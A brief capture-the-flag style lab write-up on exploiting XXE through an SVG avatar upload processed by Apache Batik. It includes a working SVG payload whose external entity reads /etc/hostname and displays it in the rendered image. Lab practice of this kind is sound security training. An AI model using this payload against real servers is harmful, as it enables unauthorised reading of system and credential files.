 # Exploiting XXE via image file upload

## This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

## To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

### step1

upload svg file

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

save as svg
upload open svg
